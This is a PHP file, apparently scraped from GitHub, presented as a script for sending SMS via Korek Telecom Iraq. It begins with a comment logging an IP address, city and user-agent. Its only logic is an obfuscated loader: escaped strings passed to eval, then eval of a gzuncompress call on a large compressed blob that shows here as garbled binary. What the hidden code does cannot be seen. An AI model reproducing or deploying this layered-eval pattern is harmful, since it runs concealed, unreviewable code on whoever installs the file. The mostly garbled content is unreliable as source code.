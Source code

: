# Korek.php
send SMS KOREK TELECOM IRAQ


<?php
/***
Date		:	2021-01-20 Wednesday 19:36:14
Ipaddress		:	130.193.206.229
City		:	Erbil
Country		:	IQ
Region		:	Arbīl
Organization		:	Unknown
User-Agent		:	Mozilla/5.0 (Linux; Android 6.0.1; SM-G532F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.101 Mobile Safari/537.36
***/
if(!version_compare(PHP_VERSION,'5.6','>='))exit(eval("\145"."c"."h\157\40\x27\120"."H\120\x20\47\56\x50"."H"."P\x5f\x56\x45"."R\x53\111\117"."N\56"."'\x20\162"."e\x71\x75"."i"."r\x65"."s\x20\120\110\x50\40"."5".".\66\x20"."o\x72\40\x68\x69"."g\150"."e"."r\56\x27\73"));$ڜÏÑý="\147\172\165\156\143"."o\x6d\160\x72\x65\x73\x73";eval($ڜÏÑý("xڍX	Tç¹n®I{[Ûä¦Il¶ÎDg+;ÆÿÍ41Kk¬­ÆÞk%#¡%Ð ¦\$ê	¢È\"˰밯¢l#ì aaF}ٗ;óþß?0ÇsÏÑoßÿ|ïû¼ë·èêþlù¯t÷jí8}xÇi#Z{u|dõ=Ï×:da¦��¥ÖÇ|s[¾Ö߬¾֚ûzíÕÕÒÕÝa®õ3-õZ¶¶Z⌕¼<èéÎl¥Î_°1w°²µÑZh
È¤±Y]­7¦¤U,íº*icZ¤b5߫¿+îçjó
M´-KQP;(]¬GWÙrhPßä|\$yf(;¾Ã;-U©£	ó¾YΐàV¨!MÏÑĈÀæëÇÒd0+­g¥obHX	j'ó .6OX FÛĘ 0 y
EÆDMÇOÍ÷Â eiôõô	
NÏúe8@@ÈP cÃPDSe³pÜDºSM1#]è5c80¬ ¿ïh`¨˴«îdøJ¡£7Ü]¾,.sîýñ6ç\"	çñÃÇMÿ~èø§\\��⿾öûfvvf߳õu:´9ý§âÏF
 Ïñâ¿!_´¶Ô!¯ À¥Ø|G¾½B©µ­߂½çí¿~ØÃٽûm¶©%߁ÚoaeovΚ¿séú¾£Ãç}6CÝT1cï`O65³¶¶ý·)ú`Ã[Cí٣øGÜߘ¿*±GKUZ+§ÄÕá\"6«¼êÉÕúXR7ËϤU K÷nu¦X:roWd©ÇûÞ]0pöȒe­4rkjN^ Õ@©ªk¦ùö¼º¹.Q,}2ÃÜäë&æ4àVñB¯H¾	уÖÀ@bËõç *g\\G56ªڌ¿çeµó\"51ÓRPw·֊Õè0\"°¥Û7\$£E0&LP`\$¦:£'ÛeâÐ9H©~R6)Änbt¡s¡9ê^û&(}¦|Ñ&Àx©â<¡ =Då§Ê/ØY\"­rSs¢ªÎ10RÇØî!Áåª˺äeº0-\\tľñ+} ¸e+º1½=((ÍY*==¢ª¼4å®ÌÀ((G#ИZ.yXoL¼j`¶
ÚIøòú[² ©i7Vô 9¬ I2Ye¤¹=ÈÊìnk8 óqXÝqU[.vòñÒaµµ/{§NrϛYÛóuX=£ýC½\\Ö֜ö|6ËÌÎò;åhNܖ߾Ð;ÍÞ)ÁÆRþwfÖ*ľö.ÑÜ ²:Ïfô!mRÿjéá3Îóî]Ù¬rÅ&ÂÂ{©YÛ]HáR
§q
M¶;©1®a)=ݖ4T[ (UÓ6Íá!ý#R¢uýc×UiðFkP2J 5áR@Sé	dA/A¶Ì5¾¡ @Ôez*z5»!¦][]٨t7ƀþ&	r
ÃpY]yÎZnòcUôMEºë~*IÁsq%QÑ]z\"°Ï)óEդú®µԄëaú&Ì>9T,wÆ 譏|G
(çh
ôyê8ÄÄýp¯Y3ƣt¶=´͢w®¶6³ÑäÝIàYïª°},¸¹¬ô¢t«ox@܉LÓÛ;î%êc¨9Ø]àÓ=zÛCP'.ÐX±Òì)ëiñ]reÚØ;ØYómJBèjS@+IÒüyôJ55չdü\$ëª44ÝOKBkW¢ƷªΟ0µ0U.Àä%QxßÐDçxð<Ïñ]sůã\"§VI0zX\\%sòʦ1)µtg҉?%Èû ½!µS\$µ(9­Ʒ(·ºd4æWD	© ñk}4bâ~}©;xÍÝ-*)ZٛÒç
®jú=t&Ä22!>¸ý&ö.I¥p¤н4ý
µ73r4½ ýH¹õÌ6©ôafsá¾ùFnKL²Hz+ˍkò¢:²ȚΑ¡.) (§õ_]ÌCtMß&17Ù,éÆTÅév}d¹Jс^&:²'GGӠk~²[H¡»h))¢X`h꘽N~©±RuzD´/¬6(À\$¬ª)#¦̝tU%}Àj 0¹H¯s+Í½¦^Ì-pî(c|hǷ·½`gÎßèE!µdí¹ðÍ6®ÁT&kPÜw÷kdö	¡n=ng´,4ÈÂX ö
YXDþÔø6,¬*MW`É[c!`ÉQӋ}Q9×( Æ[7nʄ8â	q0 
ˌM0P/@ºÒg)ªÉÓ°ùP#¤sxޓk°Â&ê°;¦¹{`*mOnY]0¨ôs;­wØ?^ÕÈN¹MÂÌmÿ&ñÚòÔ3¾ŧMNId 7R\$¸¨Õ´²IïtÌIr5(9'ÜUùLqùrà°J.��«Ϥ_8Õ
5je j+.9ùë8i_Rn°̹	SÙðµR âd±«CãS+âªC\"ýS&rÅp/~y@±»¦>ªr]wgýIÝcË.pe>Ä'q
¥|a.*ٱ=9PæÖԪ:Ð8>Ø֔;*Åk>ë%é1ý¡¢7#W²	!æ~á!MO@x胾<
£!sECÆqc0T¦ÆÛD¹*
Ge7¦ÔLN @R(Z»)-¤άÍÜÈ\\rÑl@îêÆ3g) èL
1]È0ph#æIº.Æ2t`<HÖ`ÅÁӖÁ5¬k\$æ±Yô¯.-æ\$- )ՁMÁ&ÊÖWÝ\\ªdB7Ñ\\ô0Ó
Èé/iö^zázFEDύ(î }Ùþsu¾:%JUÙÐz
W \$@©kGXòرÁnîúÎRÅƫï°¾é¬ù.eÜ'²¼͢9ùvfÊ=íÏG}xèèß9ÀhÕ?XV!Io«x qùñ\"ðݺ¨®a<ðj·¦.567	RkñWï½%S¿A3%×Yè8ªÌgîâD
¼Öè76(oý;ªã-Ä
Fs ÇõõÕo¨HPñæ ¹kÆ<ÌoîR½¼i;¶y¨ÿçkÞ\\þüQïþÒ\"³õpÓî»ÃQÂ_¹ò´㯵ë¶ZYZÖòXosþ:ÁÓØ%úó+g_äü¡`þÇ×\\£\\ÿū?~,tҪyÆ/>͟-ôJ0Ýeziq»ïßþ&æé6è,~ñl��ãÕMgÓ>]ء{¶çò´͞ºû8¢Ø,¡(\"ûã6ßeÏzIO̷n7öÑ:RùÆãnÔNv]z6³¸·îrÔÑg¬}ýd_ìÚ¿ûÒüë¾Ü}թâ×ó_؞ýUÐ˧_rH~wˣSV»/5lúú½¥Ɂ¥éC1ßÙKó?ë{eÛÎwT¾ÐäWóªÏÿæ¯̿õE×ÅԒ%Ò-'ü÷7Ý=՗và'àñÿÃ/uG;ººþݿÛÂäwß~qûð;|͉ÝÞôóo´^é[¯öúKH̖æq£N\$Ç~ò¥eX«ιwû8?ôſÄãÙÕ\$M=òҟm=ûÞÌͩ«:ñF¸ëGaݥÏô¾Ûß`áöÉðÑÇ
fâµo³/